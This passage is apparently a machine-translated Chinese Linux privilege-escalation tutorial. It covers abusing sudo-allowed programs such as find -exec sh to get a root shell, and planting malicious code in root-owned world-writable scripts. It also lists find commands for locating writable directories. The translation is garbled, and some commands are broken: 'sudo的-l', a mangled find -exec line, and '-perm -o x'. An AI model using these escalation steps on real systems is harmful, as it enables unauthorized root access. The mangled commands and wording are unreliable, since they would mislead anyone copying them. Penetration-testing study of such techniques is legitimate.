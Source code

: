 如果您的外壳程序有限，可以使用某些程序进行访问，则`sudo`可以升级权限。

> ```
> $ sudo的-l - 打印的命令，这我们都不允许到运行的SUDO              
> ```

[![img](https://camo.githubusercontent.com/4b5dba0212354d1970ef803c680fa5ebd0768c81/68747470733a2f2f7265732e636c6f7564696e6172792e636f6d2f706565726c7973742f696d6167652f75706c6f61642f635f6c696d69742c6470725f6175746f2c665f6175746f2c666c5f6c6f7373792c685f3139322c715f6175746f2c775f3632342f76312f706f73742d6174746163686d656e74732f313534383731343630333035395f756a33696f6a)](https://camo.githubusercontent.com/4b5dba0212354d1970ef803c680fa5ebd0768c81/68747470733a2f2f7265732e636c6f7564696e6172792e636f6d2f706565726c7973742f696d6167652f75706c6f61642f635f6c696d69742c6470725f6175746f2c665f6175746f2c666c5f6c6f7373792c685f3139322c715f6175746f2c775f3632342f76312f706f73742d6174746163686d656e74732f313534383731343630333035395f756a33696f6a)

*我们可以使用SUDO运行时查找，猫和python。当使用SUDO运行时，所有这些命令都将以root用户身份运行。如果我们可以通过这些命令中的任何一条以某种方式逃脱到shell，我们将获得root访问权限。*

> *$ sudo查找/ home -exec sh -i; –查找命令的执行参数可用于任意代码执行。*

[![img](https://camo.githubusercontent.com/1db84fb93a4e47ebe5088ca7061f54f8ea7e7863/68747470733a2f2f7265732e636c6f7564696e6172792e636f6d2f706565726c7973742f696d6167652f75706c6f61642f635f6c696d69742c6470725f6175746f2c665f6175746f2c666c5f6c6f7373792c685f38352c715f6175746f2c775f3632342f76312f706f73742d6174746163686d656e74732f313534383731343634323333335f7a7862766476)](https://camo.githubusercontent.com/1db84fb93a4e47ebe5088ca7061f54f8ea7e7863/68747470733a2f2f7265732e636c6f7564696e6172792e636f6d2f706565726c7973742f696d6167652f75706c6f61642f635f6c696d69742c6470725f6175746f2c665f6175746f2c666c5f6c6f7373792c685f38352c715f6175746f2c775f3632342f76312f706f73742d6174746163686d656e74732f313534383731343634323333335f7a7862766476)

- ## 以root身份调用世界可写脚本

如果找到一个[脚本](https://www.peerlyst.com/tags/script)，该[脚本](https://www.peerlyst.com/tags/script)由root拥有但可以被任何人写，则可以在该脚本中添加自己的[恶意代码](https://www.peerlyst.com/tags/malicious-code)，当该脚本以root身份运行时，该[恶意代码](https://www.peerlyst.com/tags/malicious-code)将[提升](https://www.peerlyst.com/tags/malicious-code)权限。它可能是cronjob的一部分，或者以其他方式实现了自动化，或者它可能由sysadmin手动运行。您还可以检查这些脚本调用的脚本。

> **#World可写文件目录**
>
> ```
> find / -writable -type d 2>/dev/null
> find / -perm -222 -type d 2>/dev/null
> ```
>
> 查找/ -perm -ow -type d 2> / dev / null`''
>
> **＃世界重构文件夹**
>
> ```
> find / -perm -o x -type d 2>/dev/null
> ```
>
> **＃世界可写和重置文件夹**
>
> ```
> find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
> ```
